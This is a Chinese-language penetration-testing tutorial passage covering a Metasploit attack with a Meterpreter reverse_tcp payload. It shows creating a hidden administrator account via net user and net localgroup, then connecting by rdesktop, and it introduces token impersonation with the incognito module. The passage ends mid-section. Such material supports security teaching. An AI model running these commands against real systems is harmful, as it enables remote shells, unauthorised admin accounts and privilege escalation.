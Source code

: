         使用show options 或者options查看选项设置
        可以使用show targets来查看可以攻击的系统版本
        使用show payloads可以加载所有可以使用的攻击向量

在这里插入图片描述
六、输入show options 查看和配置RHOST（靶机）和LHOST（操作机）
在这里插入图片描述
七、设置TCP连接 set payload windows/x64/meterpreter/reverse_tcp
在这里插入图片描述

八、run或exploit进行攻击
在这里插入图片描述
九、进如目标机终端
在这里插入图片描述
十、可以创建用户 net user xxxx 1234 /add（xxxx用户名 1234密码）
十一、net localgroup administrators xxxx /add （将用户设置为管理员权限）
在这里插入图片描述
十二、重新打开一个终端 rdesktop+IP

在这里插入图片描述



## 令牌窃取

​	1.令牌简介原理

​	令牌（Token）就是系统的临时密钥，相对于账户和密码，用来决定是否允许这次请求和判断

​	这次请求是属于哪一个用户的，它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源。这些令牌将持续存在于系统中，除非系统重启动。

令牌最大的特点就是随机性，不可预测，一般黑客或软件无法猜测出来。令牌有很多种，比如访问令牌（Access Token）表示访问控制操作主题的系统对象；密保令牌（Security token）,又叫作认证令牌或者硬件令牌，是一种计算机身份校验的物理设备，

在假冒令牌攻击中需要使用Kerberos协议。所以在使用假冒令牌前，先来介绍Kerberos协议。Kerberos是一种网络认证协议，其设计目标是通过密钥系统为客户机/服务器应用程序提供强大的认证服务。

客户端请求证书的过程如下所示：

- 客户端向认证服务器（AS）发送请求，要求得到服务器的证书。
- AS收到请求后，将包含客户端密匙的加密证书响应发送给客户端。该证书包括服务器ticket（包括服务器密钥加密的客户机身份和一份会话密钥）和一个临时加密密钥（又称为会话密钥，session key）当然，认证服务器也会给服务器发送一份该证书，用来使服务器认证登录客户端的身份。
- 客户端将ticket传送到服务器上，服务器确认该客户端的话，便允许它登录服务器。
- 客户端登录成功后，攻击者就可以通过入侵服务器获取客户端的令牌。

​	2.假冒令牌实战利用

此时假设我们通过一系列前期渗透，已经成功获得了目标机的Meterpreter shell 首先输入getuid命令查看已经获得的权限，然后输入getsystem，发现提权失败。

查看token：

先输入use incognito命令，然后输入list_tokens -u 列出可用的token 

会出现两种类型的令牌：

一种是Delegation Tokens ，也就是授权令牌，它支持交互式登录（列如可以通过远程桌面登录访问）；还有一种是Impersonation Tokens,也是就是模拟令牌，它是非交互的会话。令牌的数量其实取决于Meterpreter shell 的访问级别。

知识点：
